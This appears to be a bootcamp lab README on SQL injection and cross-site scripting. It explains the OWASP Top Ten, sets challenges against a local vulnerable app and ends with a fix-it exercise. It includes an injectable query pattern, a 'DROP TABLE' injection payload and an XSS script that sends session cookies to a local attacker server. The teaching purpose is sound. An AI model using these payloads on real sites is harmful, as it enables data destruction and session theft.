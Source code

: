 # Cross-site Scripting and SQL Injection

OWASP is one of those unofficial official organizations that holds a lot of sway in the security world.  They publish a few guides that tend to be seen as authoritative.  One of those guides is the annual [OWASP Top Ten](https://owasp.org/www-project-top-ten/).  

These are the most common and most serious security flaws and vulnerabilities on the web today.  Just for the sake of thoroughness--and because, just maybe, you are wary of clicking on some random link you happened across--, here is OWASP's most recent top 10:

1. Injection
2. Broken Authentication
3. Sensitive Data Exposure
4. XML External Entities
5. Broken Access Control
6. Security Misconfiguration
7. Cross-Site Scripting
8. Insecure Deserialization
9. Using Components with Known Vulnerabilities
10. Insufficient Logging and Monitoring

Feel free to peruse the list to get a feel for what you're up against (or working with). We're going to spend today worrying about SQL Injection and Cross-Site Scripting.

## SQL Injection
Always Sanitize Your Inputs.  We are already familiar with basic SQL commands, such as this fine query that returns everything in the "users" table:

```SQL
SELECT * FROM users;
```

Well, let's say you have a website where you sell Compact Discs on the Internet.  Always Sanitize Your Inputs.  A potential customer does a search for "Nirvana".  See if you can construct a likely SQL query for that information.

```sql
SELECT * FROM albums WHERE artist = "Nirvana"
```

You make that database call, then display the results on your page.  

Your backend code might then look something like this:

```python
search_results = sql.make_query(f"SELECT * FROM albums WHERE artist = {user_input}")
```
That sure does seem convenient.  And really, how else would you know what query to make, unless the user tells you.  The problem with this is that you are opening up a direct path from random people on the internet (some of whom type while wearing hoodies) to your precious, precious data.  

In all likelihood your database doesn't just have googleable information like "how many albums did Nirvana put out?", but also usernames, passwords, credit cards...  

OK, then the solution is simple: no more user input!  Unfortunately, this pretty much ruins the internet.  In the end, this is just how it has to be, unless you are prepared to hard-code every query ahead of time, or maybe just let users ctrl+f the information they want.  You can skateboard, just wear a helmet.

So how would you abuse the above SQL query?  Let's go to a deliberately vulnerable website to find out.

[http://testphp.vulnweb.com/](http://testphp.vulnweb.com/) is a poorly designed website that offers some insights in what not to do.

Let's go ahead and create an account: [sign up](http://testphp.vulnweb.com/signup.php)

Oh look, all of our account information, including credit card number, is being sent over HTTP.  Even an unsophisticated attacker could get this information.  Even your browser can show you!

[Form Data](signup.png)






## Challenges


### Setup
The challenges for today will require a little bit of setup.  

1. Clone this repo and cd into the base directory.
2. Create a virtual environment

```bash
python -m venv venv
```

3. Activate your virtual environment

```bash
source venv/bin/activate
```

4. Install the necessary Python module(s)

```bash
pip install -r requirements.txt
```

Run the bash script:
```bash
./start.sh
```
It will populate the database, and start the server.

Go to localhost:2222/ and see what you can do.

### SQL Injection Challenge: Little Bobby Tables
Some people just want to watch the world burn.  Today you'll get to sample that delicious nihilism as you (relatively) easily break things that other people spent so much more time making.  

Don't get me wrong, hackers aren't all bleakness and evil--they also love a good laugh.  In the dark corners of the internet, where everyone types with a hoodie on, there's a well-known internet comic.

[Here is one of his comics](https://xkcd.com/327/)

Unfortunately, I'm not sure I get the joke.  What could it mean?  

Note: Your database might become corrupted as you work through this challenge.  If so, simply start fresh by deleting users_posts.db, and running the start script.  When you do figure it out, you'll definitely have to re-create the database.

## Solution
In username:
```SQL
username'; DROP TABLE posts;
```


### Cross-Site Scripting Challenge: Claim Your Free Ipod!!!11
This one has some extra setup.  You'll be running an additional server on localhost:5000.  From the base directory, and in another terminal (split terminal):
1. npm install
2. node badActorServer.js

Now you have two whole servers running at the same time.

Savy internet users know to avoid Nigerian royals and herbal enhancements... But who can resist a brand new Ipod?  In a moment of weakness, you might even be tempted to click that flashing link and roll the dice.  Let's find out why you shouldn't do that.

This one is a little more complicated than the first.

Your goal is to get an unsuspecting FakeSociety user to click on a link.  You'll have to figure out some way to get that content into FakeSociety's server, onto their page, and make it tempting enough to click.  That link will direct the user to your nefarious server (badActorServer.js) and take along the user's bank account session cookie.  That cookie contains the user's bank account login information.  You should see the users bank account login information displayed to you on the page.  Then--and here's the irony--you're going to go out and buy your own Ipod!

## Solution
In username:
```html
    <script>let baseUrl = 'http://127.0.0.1:5000/'; let decodedCookie = decodeURIComponent(document.cookie); let cookieArr = decodedCookie.split(';')[1]; let finalCookie = cookieArr.split("=")[1]; let complete = `${baseUrl}${finalCookie}`; console.log(complete); document.write(`<h1><a href=${complete}>Click here for a free ipod</a></h1>`)</script>

```


## The Ethical Hacker
After years of cybrcrime, you start having second thoughts about your place in the world.  Sure, you have lots of Ipods, and no school records, but in the end, aren't you really just a social parasite?  It's time to make amends.  Since you know how to break it, it shouldn't be that hard to fix it.  

Change the source code so that your old attacks don't work anymore.  Here are some resources that might help:

[OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)